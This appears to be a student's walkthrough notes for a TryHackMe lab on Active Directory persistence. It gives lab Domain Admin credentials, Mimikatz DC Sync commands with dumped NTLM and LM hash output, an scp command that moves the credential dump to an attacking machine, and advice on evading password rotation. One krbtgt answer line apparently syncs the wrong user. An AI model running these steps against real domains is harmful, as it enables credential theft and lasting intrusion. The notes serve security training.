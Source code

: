 When discussing persistence techniques, you will use the privileged credentials to perform the persistence technique on your low-privileged credential set. Make a note of the following DA account:
- Username: `Administrator`
- Password: `tryhackmewouldnotguess1@`
- Domain: `ZA`

The first and least reliable persistence technique that we will discuss is credentials. Several of the lateral techniques discussed in previous rooms would have resulted in the attacker gaining access to credentials. When using the word credentials, it can mean a username and password pair, but in the context of AD, even the password hash is sufficient for authentication through pass-the-hash techniques.

## DC Sync
It is not sufficient to have a single domain controller per domain in large organisations. These domains are often used in multiple regional locations, and having a single DC would significantly delay any authentication services in AD. As such, these organisations make use of multiple DCs. The question then becomes, *how is it possible for you to authenticate using the same credentials in two different offices*?*

The answer to that question is *domain replication*. Each domain controller runs a process called the *Knowledge Consistency Checker (KCC)*. The *KCC* generates a replication topology for the AD forest and automatically connects to other domain controllers *through Remote Procedure Calls (RPC)* to synchronise information. 

This includes updated information such as the user's new password and new objects such as when a new user is created. This is why you usually have to *wait a couple of minutes before you authenticate after you have changed your password* since the *DC where the password change occurred could perhaps not be the same one as the one where you are authenticating to.*

The process of replication is called *DC Synchronisation*. It is not just the DCs that can initiate replication. Accounts such as those belonging to the Domain Admins groups can also do it for legitimate purposes such as creating a new domain controller.

A popular attack to perform is a *DC Sync attack*. If we have access to an account that has domain replication permissions, we can stage a DC Sync attack to harvest credentials from a DC.

**Not All Credentials Are Created Equal**
Before starting our DC Sync attack, let's first discuss what credentials we could potentially hunt for. While we should always look to dump privileged credentials such as those that are members of the Domain Admins group, *these are also the credentials that will be rotated* (a blue team term meaning to reset the account's password) first. As such, *if we only have privileged credentials, it is safe to say as soon as the blue team discovers us, they will rotate those accounts, and we can potentially lose our access.*

The goal then is to persist with near-privileged credentials. We don't always need the full keys to the kingdom; we just need enough keys to ensure we can still achieve goal execution and always make the blue team look over their shoulder. As such, we should attempt to persist through credentials such as the following:

- **Credentials that have local administrator rights on several machines.** Usually, organisations have a group or two with local admin rights on almost all computers. These groups are typically divided into one for workstations and one for servers. By harvesting the credentials of members of these groups, we would still have access to most of the computers in the estate.
-  **Service accounts that have delegation permissions.** With these accounts, we would be able to force golden and silver tickets to perform Kerberos delegation attacks.
-  **Accounts used for privileged AD services.** If we compromise accounts of privileged services such as Exchange, Windows Server Update Services (WSUS), or System Center Configuration Manager (SCCM), we could leverage AD exploitation to once again gain a privileged foothold.

When it comes to what credentials to dump and persist through, it is subject to many things. You will have to get creative in your thinking and take it on a case-by-case basis.

## DCSync All
We will be using Mimikatz to harvest credentials. SSH into THMWRK1 using the DA account and load Mimikatz; Let's start by performing a DC Sync of a single account, our own:

```markup
mimikatz # lsadump::dcsync /domain:za.tryhackme.loc /user:{Your low-privilege AD Username}

[DC] 'za.tryhackme.loc' will be the domain
[DC] 'THMDC.za.tryhackme.loc' will be the DC server 
[DC] 'aaron.jones' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : aaron.jones 

** SAM ACCOUNT **

SAM Username         : aaron.jones
Account Type         : 30000000 ( USER_OBJECT )    
User Account Control : 00000200 ( NORMAL_ACCOUNT ) 
Account expiration   :
Password last change : 4/25/2022 7:30:21 PM
Object Security ID   : S-1-5-21-3885271727-2693558621-2658995185-1429 
Object Relative ID   : 1429

Credentials:
  Hash NTLM: fbdcd5041c96ddbd82224270b57f11fc 
    ntlm- 0: fbdcd5041c96ddbd82224270b57f11fc 
    lm  - 0: 0fd2685aa18c78bd265d02bdec203b04 

[...]

* Primary:WDigest * 
    01  991d45386dd3561e0c5529d3605f96e6
    02  d5d6f25b233c87b289706d7b423f1145
[...]
```

This is great and all, but we want to DC sync every single account. To do this, we will have to enable logging on Mimikatz:
```
mimikatz # log {username}_dcdump.txt Using '{username}_dcdump.txt' for logfile: OK
```

Now, instead of specifying our account, we will use the `/all` flag:
```
mimikatz # lsadump::dcsync /domain:za.tryhackme.loc /all
```

This will take a bit of time to complete. Once done, exit Mimikatz to finalise the dump find and then you can download the `<username>_dcdump.txt` file. You can use `cat <username>_dcdump.txt | grep "SAM Username"` to recover all the usernames and `cat <username>_dcdump.txt | grep "Hash NTLM"` for all hashes. We can now either perform an offline password cracking attack to recover the plain text credentials or simply perform a pass the hash attack with Mimikatz.

### Example
![](Pasted%20image%2020241119183433.png)
```
ssh za\\Administrator@thmwrk1.za.tryhackme.loc
```
![](Pasted%20image%2020241119182814.png)

```
lsadump::dcsync /domain:za.tryhackme.loc /user:leon.hobbs
```

```
mimikatz # lsadump::dcsync /domain:za.tryhackme.loc /user:leon.hobbs 
[DC] 'za.tryhackme.loc' will be the domain 
[DC] 'THMDC.za.tryhackme.loc' will be the DC server 
[DC] 'leon.hobbs' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : leon.hobbs 

** SAM ACCOUNT **

SAM Username         : leon.hobbs
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 4/25/2022 6:30:05 PM 
Object Security ID   : S-1-5-21-3885271727-2693558621-2658995185-1165
Object Relative ID   : 1165

Credentials:
  Hash NTLM: 1e3fe4abe3975ac7cb1bc3131d1edc4a
    ntlm- 0: 1e3fe4abe3975ac7cb1bc3131d1edc4a 
    lm  - 0: 33e65f6c59b25681e5057bf5e016d704
```

```
log leon.hobbs_dcdump.txt
Using 'leon.hobbs_dcdump.txt' for logfile : OK 
```

```
lsadump::dcsync /domain:za.tryhackme.loc /all
```

- download the dump file on our attacking machine (using SCP):
```
Windows path -> C:\Tools\mimikatz_trunk\x64\leon.hobbs_dcdump.txt

scp za\\Administrator@thmwrk1.za.tryhackme.loc:C:/Tools/mimikatz_trunk/x64/leon.hobbs_dcdump.txt root@{IP}:/root/Downloads
```

```
cat <username>_dcdump.txt | grep "SAM Username"
cat <username>_dcdump.txt | grep "Hash NTLM"
```

- What is the NTLM hash associated with the krbtgt user?
```
lsadump::dcsync /domain:za.tryhackme.loc /user:leon.hobbs
```
OR
```
cat leon.hobbs_dcdump.txt | grep -A 6 "krbtgt" | grep "Hash NTLM"
```
	 -A 6 (output 6 lines which include Hash NTLM credentials)